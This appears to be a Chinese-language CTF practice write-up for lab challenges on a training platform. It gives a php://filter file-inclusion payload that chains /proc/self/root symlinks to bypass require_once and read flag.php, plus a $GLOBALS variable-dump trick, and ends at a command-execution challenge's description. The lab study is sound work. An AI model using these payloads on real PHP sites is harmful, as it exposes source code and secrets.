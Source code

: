 # 3、第三阶段练习

继续在封神台的“高校CTF”栏目中练习

## 二月靶场

### 伪协议（考点:伪协议读取、系统进程）

**提示：**伪协议读取flag.php，/proc/self指向当前进程的。

**描述：**? [传送门](http://pxlua4a1.lab.aqlab.cn/) ?

> **require_once () 语句在脚本执行期间包含并运行指定文件** (通俗一点，括号内的文件会执行一遍)。 此行为和 require () 语句类似，唯一区别是如果该文件中的代码已经被包含了，则不会再次包含。 有关此语句怎样工作参见 require () 的文档。
>
> **/proc/self指向当前进程的/proc/pid/，/proc/self/root/是指向/的符号链接，想到这里，用伪协议配合多级符号链接的办法进行绕过，多次包含使其失效。**

读取语句：`?file=php://filter/read=convert.base64-encode/resource=`

payload:`?file=php://filter/read=convert.base64-encode/resource=file:///proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/flag.php`

难

### 超全局变量（考点：超全局变量）

**提示：**利用超全局变量GLOBALS $GLOBALS — 引用全局作用域中可用的全部变量

**描述：**? [传送门](http://u31r26a2.lab.aqlab.cn/) ?

```
?args=GLOBALS
```

### 命令执行（考点：命令执行）

**提示：**config.php文件命令执行

**描述：**? [传送门](http://uu0lo9a3.lab.aqlab.cn/) ?

